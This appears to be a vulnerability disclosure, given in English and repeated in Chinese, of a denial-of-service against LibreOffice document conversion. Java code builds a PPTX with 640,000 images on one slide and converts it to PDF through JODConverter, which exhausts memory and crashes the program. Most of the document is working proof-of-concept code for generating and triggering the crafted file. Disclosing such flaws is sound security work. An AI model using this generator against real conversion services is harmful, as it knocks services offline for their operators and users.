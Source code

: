 1. Generate malicious ppt files, using Java's POI plugin to generate them
Produce a PowerPoint file with only one slide through the POI plugin, containing a total of 640000 images of 800 * 800

The code is as follows：

public class PowerPointUtil {
    private static final int NUM =800;
    public static void main(String[] args) {
        String path="E:\\office\\test.pptx";
        try {
            createPPT(path);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void createPPT(String path) throws IOException {
        XMLSlideShow ppt = new XMLSlideShow();
        XSLFSlide slide = ppt.createSlide();
        byte[] bt = FileUtils.readFileToByteArray(new File("E:\\office\\test.png"));

        for (int i = 0; i < NUM; i++) {
            for (int j = 0; j < NUM; j++) {
                XSLFPictureData pictureData = ppt.addPicture(bt, PictureData.PictureType.PNG);
                XSLFPictureShape pic = slide.createPicture(pictureData);
                pic.setAnchor(new Rectangle(i, j, 50, 50));
            }
        }
        ppt.write(new FileOutputStream(path));
    }
}

2\Operate libreoffice through the org. jdconverter dependency package, and initialize the configuration as follows

The code is as follows：

public class OfficeManagerInstance {
    private static OfficeManager INSTANCE = null;
    public static synchronized void start() {
        officeManagerStart();
    }
    public static synchronized void stop() {
        try {
            INSTANCE.stop();
        } catch (OfficeException e) {
            e.printStackTrace();
        }
    }
    public static void init() {

            LocalOfficeManager.Builder builder = LocalOfficeManager.builder().install();
            builder.officeHome("E:\\libreOffice\\");
            builder.portNumbers(8098);
            builder.taskExecutionTimeout(5 * 1000 * 60); // minute
            builder.taskQueueTimeout(10 * 1000 * 60 * 60); // hour

            INSTANCE = builder.build();
            officeManagerStart();

    }
    private static void officeManagerStart() {
        if (INSTANCE.isRunning()) {
            return;
        }
        try {
            INSTANCE.start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

3、Finally, call the OfficeManager to execute the operation of converting ppt to pdf

The code is as follows：

public class LibreOfficeUtil {
    public static void main(String[] args) {
        String pptPath="E:\\office\\test.pptx";
        String pdfPath="E:\\office\\test.pdf";

        OfficeManagerInstance.init();
        OfficeManagerInstance.start();

        try {
            JodConverter.convert(new File(pptPath)).to(new File(pdfPath)).execute();
        } catch (OfficeException e) {
            e.printStackTrace();
        }finally {
            OfficeManagerInstance.stop();
        }
    }
}

4、Upon checking the memory usage, it was found that libreoffice was consuming a large amount of memory on the machine, which led to program crashes and DOS issues

![RS0_6I){_MC}D)``}36A0RC](https://github.com/bzdxtdlsd/test1/assets/58172556/d5210e71-a12c-4d98-a6e8-9d9322f9949e)


1、生成恶意的 ppt 文件，这里采用 java 的 poi 插件去生成
通过 poi 插件，生产一个只有一张幻灯片的 ppt 文件，其中含有 800*800 共 64 万张图片 

代码如下：

public class PowerPointUtil {
    private static final int NUM =800;
    public static void main(String[] args) {
        String path="E:\\office\\test.pptx";
        try {
            createPPT(path);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void createPPT(String path) throws IOException {
        XMLSlideShow ppt = new XMLSlideShow();
        XSLFSlide slide = ppt.createSlide();
        byte[] bt = FileUtils.readFileToByteArray(new File("E:\\office\\test.png"));

        for (int i = 0; i < NUM; i++) {
            for (int j = 0; j < NUM; j++) {
                XSLFPictureData pictureData = ppt.addPicture(bt, PictureData.PictureType.PNG);
                XSLFPictureShape pic = slide.createPicture(pictureData);
                pic.setAnchor(new Rectangle(i, j, 50, 50));
            }
        }
        ppt.write(new FileOutputStream(path));
    }
}

2、通过 org.jodconverter 依赖包操作 libreoffice，初始化配置如下
代码片段：

public class OfficeManagerInstance {
    private static OfficeManager INSTANCE = null;
    public static synchronized void start() {
        officeManagerStart();
    }
    public static synchronized void stop() {
        try {
            INSTANCE.stop();
        } catch (OfficeException e) {
            e.printStackTrace();
        }
    }
    public static void init() {

            LocalOfficeManager.Builder builder = LocalOfficeManager.builder().install();
            builder.officeHome("E:\\libreOffice\\");
            builder.portNumbers(8098);
            builder.taskExecutionTimeout(5 * 1000 * 60); // minute
            builder.taskQueueTimeout(10 * 1000 * 60 * 60); // hour

            INSTANCE = builder.build();
            officeManagerStart();

    }
    private static void officeManagerStart() {
        if (INSTANCE.isRunning()) {
            return;
        }
        try {
            INSTANCE.start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

3、最后调用 OfficeManager 去执行 ppt 转 pdf 的操作
代码如下：

public class LibreOfficeUtil {
    public static void main(String[] args) {
        String pptPath="E:\\office\\test.pptx";
        String pdfPath="E:\\office\\test.pdf";

        OfficeManagerInstance.init();
        OfficeManagerInstance.start();

        try {
            JodConverter.convert(new File(pptPath)).to(new File(pdfPath)).execute();
        } catch (OfficeException e) {
            e.printStackTrace();
        }finally {
            OfficeManagerInstance.stop();
        }
    }
}

4、查看内存占用情况，发现 libreoffice 占用机器大量内存，之后程序崩溃，产生 DOS 问题

![RS0_6I){_MC}D)``}36A0RC](https://github.com/bzdxtdlsd/test1/assets/58172556/8a911d64-e18d-4d4b-8b36-8537307b93e7)

